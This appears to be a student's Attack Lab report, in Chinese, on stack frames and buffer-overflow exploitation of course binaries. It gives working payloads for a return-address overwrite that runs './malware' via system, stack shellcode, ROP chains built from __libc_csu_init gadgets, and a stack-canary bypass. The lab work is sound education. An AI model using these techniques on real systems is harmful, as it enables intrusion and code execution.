









# Attack Lab Report

> 2026-ics 吴宗泽
> 注：因为gef的输出较多，本报告中有一些部分没有截图展示其输出，只展示操作过程和部分关键结果

## 观察栈帧 input

在input里面下断点并开始运行



#### 1. 看看 trace 部分，input 函数是谁调用的？

由trace部分，input函数是由main函数调用的

#### 2. 看看 code:x86:64 部分，程序停下来的位置...似乎不是 input 函数的第一条指令。 停下来位置之前的三条指令是在做什么？ $rbp 此刻指向的内存地址当中的值来自哪里？

函数开头的三条指令如下；箭头所在的 `sub rsp, 0x10` 此时尚未执行：

```
     0x401977 <input+0000>     push   rbp
     0x401978 <input+0001>     mov    rbp, rsp
●→   0x40197b <input+0004>     sub    rsp, 0x10
```

先将原有rbp（main的rbp）放到栈中（这里rsp-=8），然后更新rbp=rsp，接下来rsp-=16为后面的输入腾出16Bytes的空间
此时[rbp]=main函数的rbp值

#### 3. 看看调用栈上 $rbp + 8 处，那里存的值是什么？（提示：运行 disas main 来查看它的汇编代码）



由图片可知，此时$rbp + 8 处存的值是0x0000000000401ad1，正好对应call input的下一条指令地址：`0x0000000000401ad1 <+14>:    mov    eax,0x0`

#### 4. 刚刚我们在 input 函数中读到的汇编代码似乎不能解释 $rbp + 8 处值的存在，我们需要找到它的来源。请你在 input 的调用者中找到 input 被调用的位置，在这里之前下一个断点，重新运行程序，并使用 si 命令从那里逐指令执行到我们的 input 断点，观察信息，回答是哪一行汇编代码在 $rbp + 8 处存入了值。

根据disas main的结果，我们可以

```
b *0x0000000000401acc
```

在call input打上断点，然后run

接下来运行

```
si
```

执行`0x401acc <main+0009>      call   0x401977 <input>`这条指令

然后

```
gef➤  x/gx $rsp
0x721000800fe8: 0x0000000000401ad1
```

我们可以发现这条call input指令把`0x0000000000401ad1`压入栈顶

接下来，我们执行两次 `si`，到达与 `b input` 等价的位置（`sub rsp, 0x10` 之前），查看栈上元素

```
gef➤  x/2gx $rbp
0x721000800fe0: 0x0000721000800ff0      0x0000000000401ad1
```

可以看到这时[rbp]是main的原始rbp，[rbp+8]是下一条指令地址。是`call input`把返回地址存入栈中的。

#### 5. 用同样的办法逐指令从 input 的 leave 指令之前处执行到 input 的调用者当中并观察每一步栈帧的变化，结合问题 2、问题 3 和 问题 4 回答 call、prologue、leave 和 ret 的作用。

我们在input leave 两处下断点

```
gef➤  b input 
Breakpoint 1 at 0x40197b
gef➤  b *0x4019d5
Breakpoint 2 at 0x4019d5
```

然后快速跳转到leave处，查看rsp/rbp/pc在执行leave之前情况

```
gef➤  i r rsp rbp rip
rsp            0x721000800fd0      0x721000800fd0
rbp            0x721000800fe0      0x721000800fe0
rip            0x4019d5            0x4019d5 <input+94>
gef➤  si
```

现在执行leave，查看rsp/rbp/pc在执行ret之前情况

```
gef➤  i r rsp rbp rip
rsp            0x721000800fe8      0x721000800fe8
rbp            0x721000800ff0      0x721000800ff0
rip            0x4019d6            0x4019d6 <input+95>
gef➤  x/gx $rsp
0x721000800fe8: 0x0000000000401ad1
```

不难发现此时栈顶元素变成了input函数之后的下一条指令地址。

另外，观察rsp/rbp我们发现在执行leave的过程中`rsp:0x721000800fd0 -> 0x721000800fe8=(0x721000800ff0-8)`，`rbp:0x721000800fe0 -> 0x721000800ff0`增加16。依据数值分析，新的栈基rbp即是main的栈基，pop rbp之后，input下一条指令的地址暴露在栈顶。

接下来执行ret

```
gef➤  si
gef➤  i r rsp rbp rip
rsp            0x721000800ff0      0x721000800ff0
rbp            0x721000800ff0      0x721000800ff0
rip            0x401ad1            0x401ad1 <main+14>
```

可以看出栈顶元素被取出并放入了rip

总结上面的发现可知，call input会将下一条指令的地址压栈，然后跳转到input中，input开头会`push  rbp ; mov  rbp,rsp`先保存main的栈基，然后重新建立栈帧。input结束时leave相当于`mov rsp,rbp ； pop rbp`先清空input的栈，然后取出栈顶元素（此时是main的栈基）放到rbp中；ret 的效果可理解为弹出栈顶返回地址并写入 rip（`pop rip` 仅表示语义，并非合法的 x86 指令）。

## 用不同长度的字符串输入测试 `dark-calc`

先分别输入20、32个ASCII字符，并观察输出



发现输入20个字符时没有报错，输入32个字符时出现报错

我们使用gdb在`gets@plt`处下一个断点，ni->输入20个ASCII字符->观察栈的情况

```
gef➤  x/4gx $rsp
0x721000800fd0: 0x4141414141414141      0x4141414141414141
0x721000800fe0: 0x0000720041414141      0x0000000000401ad1
```

输入A的ASCII是0x41，我们可以发现多出的 4 Bytes 以及 gets 追加的一个 NUL 字节被写到了 rbp 开始的地址中，破坏了rbp～rbp+8的原有内容（main的栈基），但main后续没有使用rbp，所以并不会报错。同理可知，如果输入了32个A，那么会破坏input下一条指令地址（rbp+8~rbp+16），没有ret一个合法的指令地址，因此报错。

## 利用缓冲区漏洞执行 `./malware`

只需要在input执行过程中修改rbp+8~rbp+16的内容即可跳转到任意代码，在dark-calc.c中可以找到system，所以我们希望运行`system("./malware")`，先来找到system函数的位置

```
(base) zongze@fdusc-cpu-2:~/AttackLab/attack$ objdump -d ./dark-calc | grep system -C 2
  4017db:       e9 b0 ff ff ff          jmp    401790 <.plt>

00000000004017e0 <system@plt>:
  4017e0:       ff 25 52 18 20 00       jmp    *0x201852(%rip)        # 603038 <system@GLIBC_2.2.5>
  4017e6:       68 04 00 00 00          push   $0x4
  4017eb:       e9 a0 ff ff ff          jmp    401790 <.plt>
--
  401a66:       e8 85 fd ff ff          call   4017f0 <printf@plt>
  401a6b:       bf d0 30 60 00          mov    $0x6030d0,%edi
  401a70:       e8 6b fd ff ff          call   4017e0 <system@plt>
  401a75:       48 8b 05 24 16 20 00    mov    0x201624(%rip),%rax        # 6030a0 <stdout@GLIBC_2.2.5>
  401a7c:       48 89 c7                mov    %rax,%rdi
```

从上面的反汇编可知，我们的跳转目标应该是0x401a6b（这里要跳转到system上一行，否则没有一个合理的rdi输入）

因此，我们的payload应当是：

| 长度 | 内容 | 作用 |
| --- | --- | --- |
| 16 Bytes | `./malware #` + 5 个 `A` | 命令与缓冲区填充 |
| 8 Bytes | 8 个 `A` | 覆盖保存的 rbp |
| 8 Bytes | `0x401a6b`（小端序） | 覆盖返回地址 |

最终构造为

``` python
payload = b"./malware #AAAAAAAAAAAAA\x6b\x1a\x40\x00\x00\x00\x00\x00"
```

验证结果



## 用 GDB 检查 main 函数的机器码 

我们按照要求使用 GDB 进行操作，查看main从第一条指令地址向高地址的内容

```
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401ac3 <+0>:     push   rbp
   0x0000000000401ac4 <+1>:     mov    rbp,rsp
   0x0000000000401ac7 <+4>:     mov    eax,0x0
=> 0x0000000000401acc <+9>:     call   0x401977 <input>
   0x0000000000401ad1 <+14>:    mov    eax,0x0
   0x0000000000401ad6 <+19>:    call   0x4019d7 <eval>
   0x0000000000401adb <+24>:    jmp    0x401ac7 <main+4>
End of assembler dump.
gef➤  x/24bx 0x0000000000401ac3
0x401ac3 <main>:        0x55    0x48    0x89    0xe5    0xb8    0x00    0x00    0x00
0x401acb <main+8>:      0x00    0xe8    0xa6    0xfe    0xff    0xff    0xb8    0x00
0x401ad3 <main+16>:     0x00    0x00    0x00    0xe8    0xfc    0xfe    0xff    0xff
```

从上面的内容，结合[在线汇编器](https://defuse.ca/online-x86-assembler.htm)验证，我们可以看出前三条汇编对应的机器码是：

| 指令地址 | 机器码 | 汇编指令 |
| --- | --- | --- |
| `0x401ac3` | `55` | `push rbp` |
| `0x401ac4` | `48 89 e5` | `mov rbp, rsp` |
| `0x401ac7` | `b8 00 00 00 00` | `mov eax, 0x0` |

因此，不难发现这些机器码按执行顺序逐字节连续排在代码段里，指令之间没有任何分隔符或填充。

这三条地址的内存区间在disas main里面已经展示，为`0x401ac3 -> 0x401ac4 -> 0x401ac7 -> 0x401acc`我们也可以通过查看rip进行验证

```
gef➤  b *0x0000000000401ac3
r
gef➤  i r rip
rip            0x401ac3            0x401ac3 <main>
gef➤  si
gef➤  i r rip
rip            0x401ac4            0x401ac4 <main+1>
gef➤  si
gef➤  i r rip
rip            0x401ac7            0x401ac7 <main+4>
gef➤  si
```

## 栈空间执行

目标是运行grade_eval函数，并打印出`Hope A will be your grade!`，先查看grade_eval的反汇编：



可以看出函数起始指令地址是0x401a87，grade在rdi中，我们需要将grade设置为4

根据上面的分析，我们又知道在input中`rsp=0x721000800fd0` `rbp=0x721000800fe0`，因此我们的思路是在rsp～rbp这16Bytes中写出跳转并运行grade_eval()的指令，并在 rbp+8 至 rbp+16 的位置写入缓冲区起始地址，返回后执行其中 12 Bytes 的指令。构造如下：

| 长度 | 字节内容 | 指令或作用 |
| --- | --- | --- |
| 5 Bytes | `bf 04 00 00 00` | `mov edi, 4` |
| 5 Bytes | `b8 87 1a 40 00` | `mov eax, 0x401a87` |
| 2 Bytes | `ff d0` | `call rax` |
| 12 Bytes | `AAAAAAAAAAAA` | 填充至返回地址 |
| 8 Bytes | `d0 0f 80 00 10 72 00 00` | 返回地址：`0x721000800fd0`，即缓冲区起始地址 |

执行结果



## ROP

使用objdump找到lab文档中提示的部分：

```
00000000004019d0 <__libc_csu_init>:
  4019d0:	41 57                	push   %r15
  4019d2:	41 56                	push   %r14
  4019d4:	49 89 d7             	mov    %rdx,%r15
  4019d7:	41 55                	push   %r13
  4019d9:	41 54                	push   %r12
  4019db:	4c 8d 25 2e 04 20 00 	lea    0x20042e(%rip),%r12        # 601e10 <__frame_dummy_init_array_entry>
  4019e2:	55                   	push   %rbp
  4019e3:	48 8d 2d 2e 04 20 00 	lea    0x20042e(%rip),%rbp        # 601e18 <__do_global_dtors_aux_fini_array_entry>
  4019ea:	53                   	push   %rbx
  4019eb:	41 89 fd             	mov    %edi,%r13d
  4019ee:	49 89 f6             	mov    %rsi,%r14
  4019f1:	4c 29 e5             	sub    %r12,%rbp
  4019f4:	48 83 ec 08          	sub    $0x8,%rsp
  4019f8:	48 c1 fd 03          	sar    $0x3,%rbp
  4019fc:	e8 1f fc ff ff       	call   401620 <_init>
  401a01:	48 85 ed             	test   %rbp,%rbp
  401a04:	74 20                	je     401a26 <__libc_csu_init+0x56>
  401a06:	31 db                	xor    %ebx,%ebx
  401a08:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
  401a0f:	00 
  401a10:	4c 89 fa             	mov    %r15,%rdx
  401a13:	4c 89 f6             	mov    %r14,%rsi
  401a16:	44 89 ef             	mov    %r13d,%edi
  401a19:	41 ff 14 dc          	call   *(%r12,%rbx,8)
  401a1d:	48 83 c3 01          	add    $0x1,%rbx
  401a21:	48 39 dd             	cmp    %rbx,%rbp
  401a24:	75 ea                	jne    401a10 <__libc_csu_init+0x40>
  401a26:	48 83 c4 08          	add    $0x8,%rsp
  401a2a:	5b                   	pop    %rbx
  401a2b:	5d                   	pop    %rbp
  401a2c:	41 5c                	pop    %r12
  401a2e:	41 5d                	pop    %r13
  401a30:	41 5e                	pop    %r14
  401a32:	41 5f                	pop    %r15
  401a34:	c3                   	ret
  401a35:	90                   	nop
  401a36:	66 2e 0f 1f 84 00 00 	cs nopw 0x0(%rax,%rax,1)
  401a3d:	00 00 00 
```

这里我们的思路是利用如下几块：

1. 401a2a～401a32，pop出栈顶的6个元素放到寄存器中
2. 401a34 ret -> pop rip
3. 401a10~401a32，其中有一个call可以执行目标位置

接下来观察grade_eval的反汇编：

```
0000000000401978 <grade_eval>:
  401978:	55                   	push   %rbp
  401979:	48 89 e5             	mov    %rsp,%rbp
  40197c:	48 83 ec 10          	sub    $0x10,%rsp
  401980:	89 7d fc             	mov    %edi,-0x4(%rbp)
  401983:	83 7d fc 04          	cmpl   $0x4,-0x4(%rbp)
  401987:	75 19                	jne    4019a2 <grade_eval+0x2a>
  401989:	b8 45 00 00 00       	mov    $0x45,%eax
  40198e:	2b 45 fc             	sub    -0x4(%rbp),%eax
  401991:	89 c6                	mov    %eax,%esi
  401993:	bf c0 1a 40 00       	mov    $0x401ac0,%edi
  401998:	b8 00 00 00 00       	mov    $0x0,%eax
  40199d:	e8 ee fc ff ff       	call   401690 <printf@plt>
  4019a2:	48 8b 05 d7 06 20 00 	mov    0x2006d7(%rip),%rax        # 602080 <stdout@GLIBC_2.2.5>
  4019a9:	48 89 c7             	mov    %rax,%rdi
  4019ac:	e8 0f fd ff ff       	call   4016c0 <fflush@plt>
  4019b1:	90                   	nop
  4019b2:	c9                   	leave
  4019b3:	c3                   	ret
```

发现执行 printf 时，rsi=0x41、rdi=0x401ac0。我们可以在攻击过程中设置好这两个参数，然后通过地址 `0x602038` 处的 printf GOT 表项进行间接调用。

因此我们的输入设计如下

| 长度 | 内容 | 作用 |
| --- | --- | --- |
| 16 Bytes | 填充 | 填满 expression |
| 8 Bytes | 填充 | 覆盖保存的 rbp |
| 8 Bytes | `0x401a34` | `ret`，调整栈对齐 |
| 8 Bytes | `0x401a2a` | 依次 pop rbx、rbp、r12、r13、r14、r15，然后 ret |
| 8 Bytes | `0` | rbx |
| 8 Bytes | `1` | rbp；配合 call 后的 add、cmp、jne，使循环只执行一次 |
| 8 Bytes | `0x602038` | r12；间接调用读取 `[r12 + 8*rbx]` 中的函数地址 |
| 8 Bytes | `0x401ac0` | r13；随后 `mov r13d, edi` |
| 8 Bytes | `0x41` | r14；随后 `mov r14, rsi` |
| 8 Bytes | `0` | r15；随后写入 rdx，printf 的此处格式不使用它 |
| 8 Bytes | `0x401a10` | 下一个指令地址，进入调用片段 |
| 8 Bytes | 填充 | `0x401a26` 处的 `rsp += 8` 跳过此项 |
| 6 × 8 Bytes | 填充 | 对应之后的 6 次 pop |
| 8 Bytes | `0x401a34` | `ret`，调整栈对齐 |
| 8 Bytes | `0x4019b4` | 重新进入 main；随后 input 读到 EOF，经 exit(0) 正常退出 |

验证：



## ROP更好的方式

> 在完成Canary之后，发现上面的ROP过于麻烦，所以将上面的payload保存为`payload_rop_initial.py`

观察到`  401a32:	41 5f  pop  %r15`  `401a34:	c3    	ret`这里`5f c3`正好对应`pop rdi; ret`，所以我们直接构造下面的输入即可

| 长度 | 内容 | 作用 |
| --- | --- | --- |
| 24 Bytes | 填充 | 填满缓冲区并覆盖保存的 rbp |
| 8 Bytes | `0x401a34` | `ret`，调整栈对齐 |
| 8 Bytes | `0x401a33` | `pop rdi; ret` |
| 8 Bytes | `0x4` | rdi 的值 |
| 8 Bytes | `0x401978` | grade_eval 的入口地址 |

也成功输出了Hope A will be your grade! 



## Canary

先观察dark-log的部分反汇编

```
0000000000401677 <grade_eval>:
```

```
00000000004016d6 <input>:
  4016d6:	55                   	push   %rbp
  4016d7:	48 89 e5             	mov    %rsp,%rbp
  4016da:	48 81 ec 20 01 00 00 	sub    $0x120,%rsp
  4016e1:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  4016e8:	00 00 
  4016ea:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  4016ee:	31 c0                	xor    %eax,%eax
  4016f0:	c7 45 e0 00 00 00 00 	movl   $0x0,-0x20(%rbp)
  4016f7:	bf ed 18 40 00       	mov    $0x4018ed,%edi
  4016fc:	e8 3f fe ff ff       	call   401540 <puts@plt>
  401701:	48 8d 85 e0 fe ff ff 	lea    -0x120(%rbp),%rax
  401708:	48 89 c7             	mov    %rax,%rdi
  40170b:	e8 60 fe ff ff       	call   401570 <gets@plt>
  401710:	48 85 c0             	test   %rax,%rax
  401713:	0f 84 c5 00 00 00    	je     4017de <input+0x108>
  401719:	8b 45 e0             	mov    -0x20(%rbp),%eax
  40171c:	48 98                	cltq
  40171e:	48 8d 95 e0 fe ff ff 	lea    -0x120(%rbp),%rdx
  401725:	48 83 ea 80          	sub    $0xffffffffffffff80,%rdx
  401729:	48 01 d0             	add    %rdx,%rax
（此处省略一些）
  4017df:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  4017e3:	64 48 33 04 25 28 00 	xor    %fs:0x28,%rax
  4017ea:	00 00 
  4017ec:	74 05                	je     4017f3 <input+0x11d>
  4017ee:	e8 5d fd ff ff       	call   401550 <__stack_chk_fail@plt>
  4017f3:	c9                   	leave
  4017f4:	c3                   	ret
```

可以看出我们在拷贝f.logMsg + f.len <- f.expression之后才会进行canary检查，因此我们可以通过直接修改len把f.expression拷贝到rbp的更高地址上面。通过阅读反汇编，先确定栈上数据的分布

| 起始地址 | 长度 | 内容 |
| --- | --- | --- |
| `rbp - 0x120` | 128 Bytes | expression |
| `rbp - 0xa0` | 128 Bytes | logMsg |
| `rbp - 0x20` | 4 Bytes | int len |
| `rbp - 0x1c` | 20 Bytes | pad[8] + 12 Bytes 空余 |
| `rbp - 0x8` | 8 Bytes | Canary |

就此我们确定我们的输入：在 expression 开头布置 ROP 链，并填充其余字节，将len设置为0xa0，这样 128 Bytes 的 expression 就被拷贝到了从 rbp 开始的地址处，且没有改变canary

另外我们在__libc_csu_init中发现一个细节`  4018a2:	41 5f  pop  %r15`  `4018a4:	c3    	ret`这里`5f c3`正好对应`pop rdi; ret`，这个地址是`0x4018a3`因此我们可以根据这一点设置rdi=4，然后跳转到grade_eval函数中。最终payload设计如下

| 长度 | 内容 | 作用 |
| --- | --- | --- |
| 8 Bytes | 填充 | 拷贝后覆盖保存的 rbp |
| 8 Bytes | `0x4018a3` | `pop rdi; ret` |
| 8 Bytes | `4` | rdi 的值 |
| 8 Bytes | `0x401677` | grade_eval 的入口地址 |
| 8 Bytes | 填充 | ROP 链之后的填充 |
| 216 Bytes | 填充 | 填充到 len 字段之前 |
| 4 Bytes | `0xa0`（小端序） | 覆盖 len |

验证：


